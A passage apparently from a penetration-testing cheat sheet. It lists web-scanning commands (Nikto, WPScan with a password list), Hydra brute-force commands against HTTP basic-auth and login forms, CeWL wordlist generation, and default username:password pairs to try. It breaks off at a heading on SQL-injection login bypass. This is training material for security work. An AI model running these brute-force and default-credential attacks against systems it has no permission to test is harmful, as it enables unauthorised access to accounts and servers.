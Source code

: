         Nikto scans:
        
        ```bash
        nikto -host $ip | tee nikto.log
        ```
        
        WordPress:
        
        ```powershell
        wpscan --url http://$ip/ --enumerate ap,at,cb,dbe
        wpscan --rua -e ap --url http://10.11.1.251/wp --passwords /usr/share/seclists/Passwords/probable-v2-top1575.txt
        ```
        
    - **Login portals**
        
        Brute force login portals:
        
        ```bash
        #basic auth
        hydra -l user -P /usr/share/wordlists/rockyou.txt -f $ip http-get /path
        #login form
        hydra -L users.txt -P users.txt $ip http-post-form "<directory>:login_username=^USER^&secretkey=^PASS^&<rest of post request>:<error message>"
        #create custom password list
        cewl -w cewl_passlist.txt -d 5 $RHOST/index.pl
        ```
        
        Standard credentials you should try when being blocked by login portal:
        
        ```bash
        admin:admin
        admin:password
        admin:administrator
        admin:(name of box)
        user:user
        user:password
        user:12345
        guest:guest
        root:root
        (name of box):(name of box)
        (default account):(name of application)
        
        admin:<blank>
        admin:<servicename>
        <servicename>:<servicename>
        root:admin
        root:password
        root:<servicename>
        <username>:password
        <username>:admin
        <username>:username
        username:<servicename>
        ```
        
        Try SQL injections to bypass the login form:
        